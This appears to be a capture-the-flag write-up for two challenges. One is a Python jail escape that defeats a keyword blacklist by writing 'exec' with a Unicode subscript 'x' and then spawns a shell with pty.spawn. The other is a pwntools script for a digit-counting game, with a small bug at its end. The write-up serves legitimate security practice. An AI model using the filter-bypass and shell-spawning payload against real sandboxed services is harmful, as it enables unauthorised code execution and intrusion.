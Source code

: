 
## Big Blacklist (Misc)
Connect to the server with `nc challs.n00bzunit3d.xyz 8412`. We see that there is a blacklist which prevents us from certain orders. To bypass that, we'll use unicode character ![Small p letter](https://www.compart.com/en/unicode/U+2093). So in python console run `print("\u2093")`, and replace the **'x'** of **'exec'** by the output. 
You must get `eₓec(input())` to pass into server. Then, entry `import pty; pty.spawn("/usr/bin/sh")`. You'll get a shell prompt, now you'll do everythings according ctf user.
To get the flag run `cat flag.txt`. 
<details><summary>View flag</summary></details>

---

## Numbers (Misc)
Run this following python script to solve the challenge : 
```
#!/usr/bin/env python3

from pwn import *
import re

host='challs.n00bzunit3d.xyz'
port=13541
try:
	conn = remote(host, port)

	try:
		while True:
			print(conn.recvline())  # "Round #"
			challenge_msg = conn.recvline().decode()
			print(challenge_msg)
			if "n00bz" in challenge_msg:
				print(challenge_msg)
			matches = re.findall(r'\d+', challenge_msg)
			number = int(matches[0])
			limit = int(matches[1])

			count = 0
			for i in range(1, limit):
				digits = str(i)
				for digit in digits:
					if digit == str(number):
						count += 1

			conn.sendline(bytes(str(count),'utf-8'))

			result = conn.recvline().decode()
			print(result)

		print(flag)

	except EOFError:
		print("Error: Connection closed unexpectedly.")

	except KeyboardInterrupt:
		print("Program interrupted...")

	conn.close()

except Exception as e:
	print("Error:", str(e))
```
<details><summary>View flag</summary></details>